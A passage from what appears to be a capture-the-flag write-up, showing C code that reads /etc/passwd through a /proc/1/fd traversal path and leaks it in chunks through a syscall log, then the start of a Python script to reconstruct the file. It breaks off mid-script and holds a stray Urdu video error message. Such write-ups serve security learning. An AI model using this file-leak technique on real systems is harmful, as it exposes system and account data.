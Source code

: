 

    #include <stdio.h>

    int main() {

        size_t bytesRead = 0;

        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
        FILE *log = fopen("/log", "a");
        char buf[64] = {0};
        ((unsigned long*)buf)[0] = 0xdfdf;

        while ((bytesRead = fread(&buf[56], 1, 8, file_to_read)) > 0) {
            fwrite(buf,1,64,log);
        }

        fclose(file_to_read);
        fclose(log);
    }



This returns 182 syscalls!

![](/img/image-20220907142608161.png)

#### Script File Download

I'll write a Python script to grab all the syscalls and rebuild the file
from that. [This video](https://www.youtube.com/watch?v=nGm36Hd-p4s)
shows the development of the exploit:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=nGm36Hd-p4s){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final script is:



    #!/usr/bin/env python3

    import re
    import requests
    import struct
    import sys


    if len(sys.argv) < 3:
        print(f"{sys.argv[0]} [url] [file]")
        exit()

    resp = requests.get(sys.argv[1])
    if resp.status_code != 200:
        print("Failed to fetch page")
        exit()
